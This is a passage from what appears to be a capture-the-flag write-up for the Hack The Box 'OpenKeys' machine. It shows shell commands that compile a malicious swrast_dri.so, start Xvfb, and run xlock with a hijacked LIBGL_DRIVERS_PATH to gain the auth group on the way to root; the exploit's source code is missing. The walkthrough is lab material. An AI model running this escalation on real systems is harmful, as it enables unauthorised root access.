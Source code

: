 ```c
}
```

Saved it as `swrast_dri.c` , then compile it and run it. 

```bash
openkeys$ vi swrast_dri.c                                               
openkeys$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c            
openkeys$ ls                                                 
swrast_dri.c   swrast_dri.so
openkeys$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
[2] 44334
openkeys$ _XSERVTransmkdir: Owner of /tmp/.X11-unix should be set to root

openkeys$ env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66
openkeys$ id
uid=1001(jennifer) gid=11(auth) groups=1001(jennifer), 0(wheel)
```

Now User Jennifer is in `auth` group.

If any user who is in `auth` group, we can follow this method to Privilege Escalate to Root:

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-openkeys/Untitled%2014.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-openkeys/Untitled%2014.png)
